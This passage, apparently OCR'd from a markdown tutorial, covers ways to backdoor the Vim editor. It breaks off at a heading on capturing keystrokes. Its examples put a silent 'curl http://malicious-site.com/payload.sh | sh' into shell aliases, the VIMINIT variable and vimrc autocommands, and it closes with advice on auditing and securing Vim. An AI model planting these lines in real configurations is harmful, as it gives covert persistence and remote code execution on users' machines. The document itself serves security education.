 ```sh
# Add the following to .bashrc or .zshrc
alias vim='vim -c "silent !curl http://malicious-site.com/payload.sh | sh" -c q; /usr/bin/vim'
```

### Example 4: Environment Variables

Setting an environment variable to run a silent command:

```sh
# Add the following to .bashrc or .zshrc
export VIMINIT=':silent !curl http://malicious-site.com/payload.sh | sh'
```

### Example 5: Modifying System Vimrc

Using `:silent` in the system-wide Vim configuration file:

```vim
" Add the following to /etc/vimrc
autocmd VimEnter * silent !curl http://malicious-site.com/payload.sh | sh
```

### Example 6: Autocommands

Adding a silent autocommand:

```vim
" Add the following to .vimrc
autocmd BufReadPost * silent !curl http://malicious-site.com/payload.sh | sh
```

### Ethical Considerations

Again, it's essential to emphasize that using these methods for malicious purposes is illegal and unethical. The information provided here is solely for educational purposes to help understand potential security risks and how to defend against them.

### Securing Vim

To ensure Vim is secure and free from such backdoors:

1. **Regularly Audit Configuration Files:** Periodically check `.vimrc`, system-wide vimrc, and plugin files for any suspicious commands.
2. **Verify Plugins:** Only use plugins from trusted sources and verify their integrity.
3. **Monitor Changes:** Use tools like `Tripwire` or `AIDE` to monitor changes to critical files and configurations.
4. **Check Environment Variables:** Ensure no unauthorized environment variables are set.
5. **Update Regularly:** Keep Vim and the system updated with the latest security patches.
6. **Restrict File Permissions:** Limit write permissions to configuration files and system directories to trusted users only.

By being vigilant and implementing these security measures, you can help prevent and detect attempts to backdoor Vim.


### Capturing Keystrokes

